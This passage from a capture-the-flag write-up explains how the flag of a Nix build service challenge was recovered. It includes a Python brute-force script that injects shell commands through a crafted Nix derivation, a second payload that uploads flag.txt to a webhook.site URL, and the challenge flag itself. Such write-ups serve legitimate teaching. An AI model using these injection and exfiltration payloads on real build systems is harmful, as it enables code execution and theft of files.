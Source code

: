 While replacing `KNOWN` with the characters we've already verified and `LENGTH` with the length of `KNOWN`, plus 1 for the new character we check in the iteration.

Combining this into a Python script can look like this:


```python
import requests
import string

URL = "https://f0d674bb1f83f8c87ba672ccf27a3e92.nix-build-as-a-service.chal-kalmarc.tf/"

TEMPLATE = '{\r\n  type = "derivation";\r\n  __toString = self: "\\"\\nif [[ $(head -c LENGTH ${./flag.txt}) != \\"KNOWN\\" ]]; then exit 1; fi\\n\\#";\r\n}'

known = "kalmar{"

alphabet = string.ascii_letters + string.digits + "_-!?}"

while True:
    for c in alphabet:
        print(f"Testing {known + c}")
        payload = TEMPLATE.replace('KNOWN', known + c).replace('LENGTH', str(len(known) + 1))
        r = requests.post(URL, data={"user_input": payload})
        if "For full logs" not in r.text: # error oracle
            known += c
            print(known)
            break
    else:
        print("No more characters found")
        break
```

Which leaves us with the flag:

> `kalmar{wow-no-way-reproducible-pwning-got-a-sequel}`

However, after talking to the author, we learned that a more elegant exfiltration approach was possible:

```nix
{
  type = "derivation";
  __toString = self: (self.src.overrideAttrs {
    outputHash = "";
    outputHashAlgo = "sha256";
    urls = [ "https://webhook.site/943284f3-a05a-46da-8308-6dd5fadfc0e1" ];
    curlOptsList = [ "-F" "flag=@${./flag.txt}" ];
  });
}
```

This makes use of `__toString` receiving `self`, which -- in our case -- is just a reference to `pkgs.hello`, after being merged with our `user-input` attribute set.

This way, we can get access to our own `src` attribute, which has an `overrideAttrs` function defined on it, allowing us to override the derivation, causing a rebuild.


[^1]: https://jade.fyi/blog/reproducible-pwning-writeup/, https://diogotc.com/blog/kalmarctf-writeup-reproducible-pwning/
[^2]: https://x.com/D_K_Dev
[^3]: https://github.com/NixOS/nixpkgs/commit/8532db2a88ba56de9188af72134d93e39fd825f3
[^4]: https://noogle.dev/
[^5]: https://github.com/NixOS/nix/blob/a047dec120672d00e069bacf10ffdda420fd1048/doc/manual/source/language/string-interpolation.md#interpolated-expression
[^6]: https://discourse.nixos.org/t/what-is-sandboxing-and-what-does-it-entail/15533
[^7]: This ignores some complexities like Flakes in conjuction with Git repositories, where Nix will have a limited view of what files are available.
[^8]: https://nixos.org/guides/nix-pills/20-basic-dependencies-and-hooks